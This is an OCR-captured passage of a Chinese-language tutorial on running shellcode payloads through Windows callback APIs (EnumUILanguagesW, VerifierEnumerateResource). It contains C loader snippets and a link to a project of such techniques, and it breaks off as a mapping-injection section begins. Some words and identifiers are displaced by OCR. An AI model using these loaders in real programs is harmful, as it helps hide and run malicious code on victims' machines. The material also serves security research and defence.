 EnumUILanguagesW枚举系统上安装的⽤户界⾯ (UI) 语⾔。它以回调函数作为参数，并将回调函数逐个应⽤于每种 UI 语⾔。请注意，任何值（⽽不是MUI_LANGUAGE_NAME标志）仍然有效。  
  
Payload下⾯的代码⽚段以回调函数的形式运⾏位于的代码。  
```
if (!EnumUILanguagesW((UILANGUAGE_ENUMPROCW)Payload, MUI_LANGUAGE_NAME, NUL
L)) {
printf("[!] EnumUILanguagesW Failed With Error : %d \n", GetLastError
());
return -1;
}
```  
### 使⽤ VerifierEnumerateResource  
  
VerifierEnumerateResource⽤于枚举指定模块中的资源。资源是存储在模块（如可执⾏⽂件或动态链接库）中的数据，可在运⾏时由该模块或其他模块访问。资源的示例包括字符串、位图和对话框模板。  
  
VerifierEnumerateResource是从 导出的，因此必须使⽤和WinAPIverifier.dll动态加载模块才能访问该函数。LoadLibraryGetProcAddress  
  
这里注意，如果ResourceType参数不等于，AvrfResourceHeapAllocation则不会执⾏有效载荷。  
  
AvrfResourceHeapAllocation允许函数枚举堆分配，包括堆元数据块。  
```
HMODULE hModule = NULL;
fnVerifierEnumerateResource pVerifierEnumerateResource = NULL;
hModule = LoadLibraryA("verifier.dll");
if (hModule == NULL){
printf("[!] LoadLibraryA Failed With Error : %d \n", GetLastError());
return -1;
}
pVerifierEnumerateResource = GetProcAddress(hModule, "VerifierEnumerateR
esource");
if (pVerifierEnumerateResource == NULL) {
printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError
());
return -1;
}
// Must set the AvrfResourceHeapAllocation flag to run the payload
pVerifierEnumerateResource(GetCurrentProcess(), NULL, AvrfResourceHeapAl
location, (AVRF_RESOURCE_ENUMERATE_CALLBACK)Payload, NULL);
```  
  
附一个项目  
  
**https://github.com/aahmad097/AlternativeShellcodeExec**  
  
### 映射注⼊  
  
到⽬前为⽌，在之前的所有实现中，都使⽤私有内存类型来在执⾏期间存储有效载荷。私有内存使⽤VirtualAlloc或进⾏分配VirtualAllocEx。下图显示了包含有效载荷的“LocalThreadHijacking”实现中分配的私有内存。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7D2JPvxqDTGtlmgZK5lboibRbNJM0TcfBRzyUfgMF0zes44k1Ws0WnN7z1hfvYnhI1ib8Qgsibj2xQgQcernOF5pQ/640?wx_fmt=jpeg&from=appmsg "")  
### 映射内存  
  